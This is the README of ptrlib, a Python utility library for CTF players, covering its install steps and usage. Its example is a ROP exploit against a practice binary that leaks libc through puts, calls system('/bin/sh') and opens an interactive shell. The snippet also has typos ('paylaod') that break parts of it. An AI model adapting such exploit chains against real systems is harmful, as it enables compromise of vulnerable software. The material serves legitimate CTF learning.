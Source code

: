 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirement
Supports: Python 3.x  
Library Dependency: pycryptodome

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
got_puts = elf.got("puts")
plt_puts = elf.plt("puts")
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64(rop_pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(rop_pop_rdi)
payload += p64(stage2)
payload += p64(plt_gets)
paylaod += p64(rop_pop_rbp)
paylaod += p64(stage2)
payload += p64(rop_leave_ret)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)

